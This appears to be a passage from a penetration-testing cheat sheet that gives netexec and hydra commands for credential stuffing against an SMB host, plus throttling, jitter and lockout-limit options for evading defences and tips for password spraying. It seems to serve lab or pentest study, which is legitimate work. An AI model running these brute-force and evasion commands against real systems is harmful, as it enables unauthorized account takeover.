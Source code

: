 ### 4. Credential Stuffing
```bash
# Use breached credentials
netexec smb 10.129.42.197 -u users.txt -p breached_passwords.txt

# Domain credential reuse
netexec smb 10.129.42.197 -u domain_users.txt -p domain_passwords.txt
```

## Defense Evasion

### Rate Limiting
```bash
# Slow down attacks
hydra -L users.txt -P passwords.txt -t 1 -W 5 ssh://target

# Jitter in NetExec
netexec ssh target -u users.txt -p passwords.txt --jitter 5-10
```

### Account Lockout Awareness
```bash
# Stop on lockout
netexec smb target -u users.txt -p passwords.txt --gfail-limit 3

# Limit failed attempts per user
netexec smb target -u users.txt -p passwords.txt --ufail-limit 3
```

## Tips for Success

1. **Reduce threads** - Many services don't handle parallel connections well
2. **Use delays** - Avoid triggering rate limiting/lockouts
3. **Target specific services** - Focus on services that are commonly misconfigured
4. **Common credentials** - Try default/common passwords first
5. **Domain awareness** - Use domain-specific usernames and patterns
6. **Service-specific attacks** - Each service has unique characteristics
7. **Combine techniques** - Use multiple tools for comprehensive coverage

## Advanced Attack Techniques

### Password Spraying
**Definition:** Using a single password across many different user accounts

**When to use:**
- Companies with standard password policies
- Default passwords are commonly used
- Avoiding account lockouts (one password per user)
- Active Directory environments
